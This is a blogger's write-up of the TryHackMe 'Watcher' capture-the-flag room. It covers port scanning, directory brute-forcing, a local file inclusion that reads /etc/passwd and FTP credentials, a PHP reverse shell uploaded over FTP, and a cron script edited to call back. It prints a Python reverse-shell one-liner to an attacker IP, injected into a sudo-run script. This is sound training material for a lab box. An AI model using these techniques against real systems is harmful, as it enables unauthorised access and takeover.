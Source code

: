 +++ 
draft = false
date = 2021-02-22T17:43:36+05:30
title = "Watcher TryHackMe Writeup"
description = "writeup of Watcher room TryHackMe"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","thm","medium_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
# Watcher TryHackMe Writeup

>Room link : https://tryhackme.com/room/watcher

![](/TryHackMe/Watcher/BoxImage.png)


## __First flag__

So as usual I stated with nmap.


```
# Nmap 7.91 scan initiated Sun Feb 21 18:23:14 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.239.73
Warning: 10.10.239.73 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.239.73
Host is up, received syn-ack (0.16s latency).
Scanned at 2021-02-21 18:23:15 IST for 1494s
Not shown: 64971 closed ports, 561 filtered ports
Reason: 64971 conn-refused and 561 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=
|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Hence open ports are 

*  21 (FTP)
*  22
*  80

Hence I first visited port 80.

![](/TryHackMe/Watcher/port80.png)


I fired up gobuster .

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.239.73/
[+] Threads:        20
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/21 18:24:10 Starting gobuster
===============================================================
/index.php (Status: 200)
//TryHackMe/Watcher (Status: 301)
/post.php (Status: 200)
/css (Status: 301)
/robots.txt (Status: 200)
/bunch.php (Status: 200)
/round.php (Status: 200)
/server-status (Status: 403)
```

Hence first I visited robots.txt. 

![](/TryHackMe/Watcher/robot.png)


Hence first flag is found.



## __Second Flag__


Hence when I clicked the products in the website I found that the parameter **post** might be vulnerable.


So there was a possibility of **LFI** .And I tried /etc/passwd and it worked.

![](/TryHackMe/Watcher/etcpass.png)



So I tried the second entry in the robots.txt . 


![](/TryHackMe/Watcher/ftppass.png)



So we get ftp username and pass.

![](/TryHackMe/Watcher/ftpfold.png)


We get flag_2.txt and we see that files directory doesn't contain anything , but interesting part is it is writeable.


## __Flag 3__


Hence I uploaded a reverse shell in ftp files directory.


Since it is in the folder **/home/ftpuser/ftp/files/shell.php** , we can use LFI to access it.


> http://10.10.222.19/post.php?post=../../../../../home/ftpuser/ftp/files/shell.php


Hence we get a shell. And we can find flag 3.


![](/TryHackMe/Watcher/flag3.png)



## __Flag 4__


When I tried sudo -l I got


![](/TryHackMe/Watcher/wwperm.png)


So we can get to user toby using

> sudo -u toby /bin/bash

And we get flag4 .


## __Flag 5__


![](/TryHackMe/Watcher/jobs.png)


There is a folder called jobs and it contains a shell script file called **cow.sh**

```shell
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```
Now let's add bash reverse shell and comment out the cp command.

![](/TryHackMe/Watcher/editjob.png)


Hence we get a shell and the fifth flag.


## __Flag 6__

So here was also a note.txt


![](/TryHackMe/Watcher/pythonperm.png)



Hence in the scripts dir we can see two python files.

**cmd.py** and **will_script.py**

will_script.py :

```python
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

cmd.py :

```python
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

Hence I added in cmd.py before the function

> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.74.96",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);


![](/TryHackMe/Watcher/pythonedit.png)



Hence if we run

> sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *

And we get shell and flag 6.


## __Flag 7 (the root flag)__

So when I used id command I got this 

```shell
will@watcher:~$ id 
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
```
So I tried 

> find / -type f -group adm 2>>/dev/null


![](/TryHackMe/Watcher/key.png)



So this shows maybe this is a ssh-key and the b64 suggests it that it is base64 encoded.


![](/TryHackMe/Watcher/cyberchef.png)


And as expected it is ssh private key so saved it as id_rsa and chmod 600 id_rsa.


> ssh -i id_rsa root@\<vpn-ip>



![](/TryHackMe/Watcher/root.png)





